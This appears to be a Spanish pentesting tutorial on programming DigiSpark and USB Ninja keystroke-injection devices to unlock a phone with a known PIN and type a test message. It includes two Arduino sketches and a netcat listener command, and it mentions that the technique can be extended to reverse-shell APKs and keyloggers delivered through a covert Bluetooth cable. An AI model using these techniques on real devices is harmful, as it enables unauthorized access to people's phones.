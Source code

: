 ```yaml
---
icon: newspaper
---
```


# Digispark/USB Ninja (Función)

En esta prueba veremos a como desbloquear el patron de un movil (Patron de numeros) pero ya programado sabiendo el patron y las funcionalidades del mismo una vez estando dentro del movil y las diferencias de los 2.

## <mark style="color:purple;">DigiSpark General</mark>

### DigiSpark desbloqueo de patron y escribir una frase de prueba en un bloq de notas (movil)

Primero tendremos que programar mediante `Arduino` en el microcontrolador llamado `DigiSpark` volcarle el script que utilizaremos para el desbloqueo de pantalla cuando insertemos el mismo en el movil

Utilizaremos la biblioteca `DigiKeyboard`.

Instalaremos el software llamado `Arduino IDE`, despues echo esto entraremos dentro del mismo para programar el `DigiSpark`.

URL = [Arduino IDE](https://www.arduino.cc/en/software)

Dentro del software escribiremos algo parecido a esto:

```cpp
#include "DigiKeyboard.h"

void setup() {

  // Pausa para dar tiempo a que el móvil detecte el dispositivo

  DigiKeyboard.delay(5000);  // Espera 5 segundos para que el teléfono esté listo

  // Simular la entrada del patrón numérico (por ejemplo, "1234" como código de desbloqueo)

  DigiKeyboard.sendKeyStroke(KEY_1);  // Presiona '1'

  DigiKeyboard.delay(300);  // Breve pausa entre teclas

  DigiKeyboard.sendKeyStroke(KEY_2);  // Presiona '2'

  DigiKeyboard.delay(300);

  DigiKeyboard.sendKeyStroke(KEY_3);  // Presiona '3'

  DigiKeyboard.delay(300);

  DigiKeyboard.sendKeyStroke(KEY_4);  // Presiona '4'

  DigiKeyboard.delay(300);

  DigiKeyboard.sendKeyStroke(KEY_ENTER);  // Presiona 'Enter' para confirmar el PIN

  // Pausa para asegurarse de que el móvil se ha desbloqueado

  DigiKeyboard.delay(2000);

  // Abre el bloc de notas (simulación de teclas). Dependiendo del móvil, esto puede requerir ajustar los comandos.

  // Simula la búsqueda de la aplicación de Notas usando el botón de búsqueda en Android

  DigiKeyboard.sendKeyStroke(KEY_F3);  // Presiona la tecla 'Buscar'

  DigiKeyboard.delay(1000);

  DigiKeyboard.println("notas");  // Escribe "notas" en la búsqueda

  DigiKeyboard.delay(500);

  DigiKeyboard.sendKeyStroke(KEY_ENTER);  // Presiona 'Enter' para abrir la aplicación

  // Esperar un momento para que la aplicación se abra

  DigiKeyboard.delay(2000);

  // Escribir el mensaje de prueba en el bloc de notas

  DigiKeyboard.println("Este es un mensaje de prueba desde DigiSpark");

}

void loop() {

  // No es necesario repetir nada en el loop, ya que solo necesitamos ejecutar el código una vez

}
```

Y con esto lo que hara sera que cuando introduzcamos el `DigiSpark` en el movil, desbloqueara el patron programado y buscara el bloq de notas abriendolo y escribiendo en el mismo la frase de prueba.

Con esta tecnica tambien se podria descargar desde un servidor externo de `python3` un `APK` programada por nosotros que contenga una `Reverse Shell` y estando a la escucha desde un host nuestro de la siguiente forma:

```shell
nc -lvnp <PORT>
```

Podremos ganar acceso al sistema del movil mediante una terminal en nuestro host (Todo de forma automatizada).

O se podria hacer un `KeyLogger` para capturar los pulsos de teclas del patron o de informacion debil.

## <mark style="color:purple;">USB Ninja + Cable Bluetooth General</mark>

### USB Ninja desbloqueo de patron y escribir una frase de prueba en un bloq de notas todo mediante un cable Bluetooth (movil)

El USB Ninja tiene 2 botones (A y B) que con ellos podremos desplegar diferentes cargas utiles hacia el dispositivo de la Victima (Las que programemos nosotros).

Todo este ataque se hara mediante `Bluetooth` ya que el USB Ninja lleva incorporado una antena por la que transmite la señal hacia un transmisor `Bluetooth` en el que estara conectado al dispositivo de la Victima, podremos utilizar el `Cable Ninja Bluetooth` que lleva incorporado todo lo anterior (Externamente es una cable normal de carga de tipo C, pero por dentro lleva un sistema `Bluetooth` para que se pueda conectar el USB Ninja)

En el equipo Atacante programamos mediante el software `Arduino IDE` el USB Ninja con las respectivas funciones de los botones que queremos que haga, por ejemplo estableceremos que cuando se presione el `Boton A` haga una fuerza bruta para desbloquear el patron y cuando se presione el `Boton B` que se habra el bloq de notas y se escriba la frase de prueba.

```cpp
#include <USBNinja.h>

void setup() {

  USBNinja.begin(); // Iniciar el USB Ninja
  
}

void loop() {

  // Cuando se presiona el botón A, se envía el patrón PIN para desbloquear el móvil

  if (USBNinja.buttonA()) {

    // Simular el ingreso del código PIN (por ejemplo, "1234")

    USBNinja.sendKeyStroke(KEY_1); // Presiona '1'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_2); // Presiona '2'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_3); // Presiona '3'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_4); // Presiona '4'

    USBNinja.delay(300);

    USBNinja.sendKeyStroke(KEY_ENTER); // Confirmar el PIN con 'Enter'

    USBNinja.delay(2000); // Pausa para asegurarse de que el teléfono se ha desbloqueado

  }

  // Cuando se presiona el botón B, abre el bloc de notas y escribe un mensaje de prueba

  if (USBNinja.buttonB()) {

    // Simular abrir el bloc de notas (ajustar según el dispositivo)

    USBNinja.sendKeyStroke(KEY_F3); // Buscar en el teléfono (F3 es una tecla común de búsqueda)

    USBNinja.delay(1000); // Esperar que aparezca el campo de búsqueda

    USBNinja.println("notas"); // Escribir "notas" en el campo de búsqueda

    USBNinja.delay(500); // Pausar antes de presionar Enter

    USBNinja.sendKeyStroke(KEY_ENTER); // Presiona 'Enter' para abrir la app de Notas

    USBNinja.delay(2000); // Esperar que la app de Notas se abra

    // Escribir el mensaje de prueba en el bloc de notas

    USBNinja.println("Este es un mensaje de prueba desde USB Ninja");

  }

}
```

Esto lo que hace es desbloquear el movil con el `Boton A` y cuando se presione el `Boton B` que se habra el bloq de notas y se escriba la frase de prueba.

A parte de el texto de prueba, se puede hacer mucho mas como por ejemplo `Reverse Shell` o `KeyLoggers`, tambien la tecnica de las `Stiky Keys`, etc...

URL = [Pagina USB Ninja](https://lab401.com/es-es/products/usbninja?srsltid=AfmBOoq-v9GiW8FI27gS4XAFEIymS1ttCIRpMyqGIhuVpUA9u_KYtbAK)

## <mark style="color:purple;">Conclusión final</mark>

El USB Ninja + el cable bluetooth es la mejor eleccion ya que a la hora de hacer pentesting en red team es muy eficaz y muchisimo mas discreto, sin embargo el DigiSpark es menos sigiloso y menos variedad de programación ya que es muy limitada.
